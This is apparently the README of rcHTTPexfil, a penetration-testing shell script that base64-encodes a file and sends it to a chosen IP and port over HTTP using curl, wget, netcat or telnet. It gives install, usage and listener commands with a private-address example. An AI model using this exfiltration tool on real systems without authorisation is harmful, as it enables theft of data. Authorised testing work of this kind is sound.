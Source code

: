 #######################################################################

Red Crow Labs 

#######################################################################

rcHTTPexfil is a shell script which takes in a text file, base64 encodes it, and attempts to transmit it to a specified IP and Port using HTTP. This tool tries various methods for transmitting including curl, wget, netcat, and telnet.

This is a basic and insecure data exfiltration tool which is useful when doing testing on a system and there is a need to copy data from it to a central host for analysis.

========================================================================= INSTALL:

git clone https://github.com/redcrowlab/rcHTTPexfil.git

========================================================================= USAGE:

chmod 755 rcHTTPexfil.sh
./rcHTTPexfil.sh [filename] [URL] [Port]

example:

./rcHTTPexfil.sh surveyData.txt http://192.168.1.10 8080

On the listener side do:

python rcHTTPexfilListener.py 192.168.1.10 8080

========================================================================= NOTE:

Requires python on the listener host and curl, wget, netcat, or telnet on the transmitting host.